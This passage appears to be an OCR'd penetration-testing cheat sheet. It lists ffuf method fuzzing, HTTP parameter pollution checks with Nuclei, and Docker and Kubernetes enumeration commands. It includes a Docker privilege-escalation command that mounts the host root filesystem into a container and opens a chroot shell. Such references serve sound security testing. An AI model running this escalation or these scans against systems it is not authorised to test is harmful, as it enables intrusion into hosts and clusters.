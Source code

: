     :- Fuzz HTTP methods
    ffuf -w methods.txt:METHOD -u https://target.com -X METHOD --hc 405,404 

### HTTP Parameter Pollution (HPP)    
    :- (Testing how the server handles multiple parameters with the same name)
    Manual Testing: Add duplicate parameters in GET/POST requests, e.g.:
    https://target.com/search?q=test1&q=test2
    POST / form data: param=val1&param=val2
    
    :- Use Nuclei templates for HPP
    nuclei -u https://target.com/search?q=test -t exposures/parameter-pollution.yaml 

## CONTAINER & ORCHESTRATION SECURITY (Docker/Kubernetes)

### Docker Enumeration & Exploitation (If access to Docker socket or API is gained)    
    :- Check Docker version (potential vulns)
    docker version
    
    :- List all containers (running and stopped)
    docker ps -a
    
    :- List downloaded images
    docker images
    
    :- List Docker networks
    docker network ls
    
    :- List Docker volumes
    docker volume ls
    
    :- Get detailed info about a container
    docker inspect <container_id_or_name>
    
    :- Execute a shell inside a running container
    docker exec -it <container_id_or_name> /bin/sh
    
    :- Mount host filesystem into a new container (privilege escalation if socket is exposed)
    docker run -v /:/mnt --rm -it alpine chroot /mnt sh

### Kubernetes Enumeration (requires kubectl configured or API access)    
    :- Check client and server version
    kubectl version
    
    :- Get cluster endpoint and services info
    kubectl cluster-info
    
    :- List nodes in the cluster with IPs
    kubectl get nodes -o wide
    
    :- List all namespaces
    kubectl get namespaces
    
    :- List pods in a namespace with node info
    kubectl get pods -n <namespace> -o wide
    